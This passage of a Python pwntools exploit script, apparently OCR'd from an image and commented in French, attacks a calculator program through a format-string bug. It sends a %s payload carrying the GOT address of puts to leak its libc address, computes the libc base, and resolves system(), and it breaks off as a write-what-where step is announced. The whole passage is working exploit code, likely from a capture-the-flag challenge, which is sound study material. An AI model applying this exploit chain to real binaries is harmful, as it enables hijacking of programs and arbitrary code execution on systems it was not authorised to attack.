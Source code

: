 ```python
    p.sendline(payload)                                                                                                
    buff = p.recvline()                                                                                                
    return buff                                                                                                        
                                                                                                                       
                                                                                                                       
autofmt = FmtStr(exec_fmt)                                                                                             
offset = autofmt.offset                                                                                                
info("offset is at dword %d", offset)                                                                                  
                                                                                                                       
# C'est parti pour le leak de l'adresse réelle de puts contenu dans la GOT                                             
p.readuntil(b"Selection:")                                                                                             
p.sendline(b"1")                                                                                                       
p.readuntil(b"Enter first number:")                                                                                    
p.sendline(b"1")                                                                                                       
p.readuntil("Enter second number:")                                                                                    
                                                                                                                       
payload = f'%{offset+1}$s'.encode()                                                                                    
payload += p32(elf.got.puts)                                                                                           
p.sendline(payload)                                                                                                    
                                                                                                                       
# Dans la réponse on obtient l'adresse de puts mappée en mémoire (libc)                                                
buff = p.readuntil(b"Selection:")                                                                                      
puts_libc_addr = unpack(buff.split(b"Error details: ")[1][:4])

libc = elf.libc                                                                                                        
info("puts = %#x", puts_libc_addr)                                                                                     
# on calcule l'adresse de base de la libc et on écrase celle sur l'objet libc                                          
# de pwntools qui permettra d'obtenir directement celle de système ensuite                                             
libc.address = puts_libc_addr - libc.symbols.puts                                                                      
info("libc base = %#x", libc.address)                                                                                  
                                                                                                                       
# Calculate system()                                                                                                   
system_libc_addr = libc.symbols.system                                                                                 
info("system = %#x", system_libc_addr)                                                                                 
                                                                                                                       
# On rentre à nouveau dans le calculateur mais cette fois pour le write-what-where                                     
```